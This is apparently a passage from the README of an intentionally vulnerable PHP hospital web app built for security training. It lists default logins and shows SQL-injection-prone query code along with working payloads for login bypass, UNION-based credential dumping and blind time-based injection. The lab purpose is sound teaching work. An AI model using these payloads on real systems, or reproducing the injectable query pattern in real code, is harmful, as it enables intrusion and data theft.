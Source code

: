 4. **Access the application**:
```
http://localhost:8080
```

### Default Credentials

| Username | Password | Role |
|----------|----------|------|
| admin | admin123 | Administrator |
| doctor1 | doctor123 | Doctor |
| nurse1 | nurse123 | Nurse |
| patient1 | patient123 | Patient |
| test | test | Patient |

---

## 🎯 Intentional Vulnerabilities

### 1. SQL Injection (SQLi)

**Location**: Multiple endpoints
**Severity**: CRITICAL

#### Vulnerable Code Examples:

**Login Page** (`index.php`):
```php
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

**Patient Search** (`search.php`):
```php
$query = "SELECT * FROM patients WHERE first_name LIKE '%$search%' OR last_name LIKE '%$search%'";
```

#### Exploitation:

**Bypass Authentication**:
```
Username: admin' OR '1'='1' -- 
Password: anything
```

**Union-based SQLi** (Patient Search):
```
' UNION SELECT id,username,password,email,role,created_at,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM users -- 
```

**Blind SQLi**:
```
' AND (SELECT SLEEP(5)) -- 
```
